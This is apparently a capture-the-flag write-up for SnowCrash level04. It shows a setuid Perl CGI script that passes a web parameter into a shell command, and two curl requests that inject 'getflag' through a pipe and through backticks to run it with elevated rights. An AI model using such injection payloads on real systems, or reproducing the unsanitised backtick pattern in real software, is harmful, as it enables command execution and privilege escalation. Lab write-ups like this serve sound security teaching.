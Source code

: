 4 -rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
setuid / setgid again here

level04@SnowCrash:~$ cat level04.pl 
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));

using the &y which is a user input we can send whatever we want inside

curl "http://localhost:4747?x=|getflag"
and 
curl "http://localhost:4747?x=\`getflag\`"

we can actually execute getflag from the script

pipe method works because it's within the perl script that executes with elevated permissions
(tanks to setuid)

the second method uses backticks "`" that executes command, again with elevated permissions
as it still is within the perl script
